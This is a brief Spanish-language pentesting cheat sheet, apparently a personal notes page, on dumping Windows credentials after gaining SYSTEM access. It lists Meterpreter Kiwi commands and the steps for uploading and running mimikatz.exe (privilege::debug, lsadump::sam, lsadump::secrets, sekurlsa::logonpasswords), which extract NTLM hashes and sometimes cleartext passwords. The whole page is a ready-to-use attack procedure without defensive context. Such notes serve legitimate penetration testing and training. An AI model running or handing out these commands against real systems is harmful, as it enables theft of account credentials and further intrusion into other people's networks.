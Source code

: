 # Mimikatz

Tags: #Windows #Mimikatz #DumpingHashes


Dentro de la sesión de Meterpreter usaremos la extensión de Kiwi para dumpear passwords. Pero debemos de ser 'NT Authority\\System'

## Dumpear los hashes

```bash 
❯ load kiwi                 # Cargamos la extension Kiwi

	❯ ?                    # Ver que comandos podemos usar 
	❯ creds_all            # Nos muestra todas las credenciales
	❯ lsa_dump_sam         # Nos muestra los hashes NTLM de los usuarios 
	❯ lsa_dump_secrets     # Nos muestra las credenciales a veces en texto claro 
```

También podemos cargar el archivo en la sesión de Meterpreter

```bash
❯ upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe 
❯ shell
❯ .\mimikatz.exe 

	❯ privilege::debug             # Nos debe de mostrar un 20 ok
	❯ lsadump::sam                 # Muestra mas informacion (ID, Hash)
	❯ lsadump::secrets             # Muestra las credenciales a veces en texto claro 
	❯ sekurlsa::logonpasswords     # A veces despliega passwd en texto claro
```


